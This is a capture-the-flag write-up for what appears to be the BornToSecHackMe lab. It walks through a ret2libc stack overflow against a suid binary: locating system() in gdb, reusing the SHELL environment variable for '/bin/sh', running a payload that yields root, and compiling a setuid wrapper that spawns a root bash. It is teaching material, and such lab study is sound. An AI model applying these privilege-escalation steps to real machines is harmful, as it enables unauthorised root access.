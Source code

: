 # Writeup 3 - ret2libc

> This writeup takes from [Writeup 1](../writeup1/README.md), having discovered `zaz` user's credentials.

Instead of writing our payload to the stack to execute it, we can use a "ret2libc" technique, which will jump to a libc function that will execute our payload.

## Preparation

Like the previous writeup, we first need access to a proper shell on the machine, here we use the `zaz` user account again, as it contains the `exploit_me` binary, needed for this exploit.

## Explanation

In the first `breadcrumbs` path, we simply execute the stack of the vulnerable suid binary to get a shell with elevated privileges. This works fine on this machine as the stack of this program is ***executable***: this means we can easily overwrite a return address with an address of a user-controlled shellcode.
With newer machines, and better security standards, the stack of a program is usually not executable, which makes the previous exploit unusable. This is where ***ret2libc*** or ***return to libc*** comes in. The idea behind this exploit is very similar, it is still a stack overflow attack, but instead of inputting an address pointing to a *shellcode* to run we point towards the memory location of the function `system()`, to which we can pass the path to a shell to be executed.

## Running the exploit

We first need to find the address of the `system()` function in libc, we can do this in `gdb`:
```
Temporary breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Next, we need to find somewhere in memory where the string `/bin/sh` is stored, so we can pass it to `system()` and execute it. We can either use the `strings` command to analyze loaded libraries (`libc.so`), or we can look into environment variables. A common environment variable that's set by the shell and already available to us is...
```bash
$ echo $SHELL
/bin/sh
```

Neat! Everything we need is already in memory, we just need to get our payload into an executable position via some ridiculously crafted offset aaaaanddddd:
```bash
$ SHELL=/bin/dash ./exploit_me $(echo -en $(python2 payload-ret2libc.py))
...
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

And we're done! Almost.

A little bit of cleanup is needed:
```c
#include <stdlib.h>

int main(void) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

```
# cc -o /tmp/final /tmp/final.c
# /tmp/final
root@BornToSecHackMe:~# id
uid=0(root) gid=0(root) groups=0(root)
```

pwned. 😎
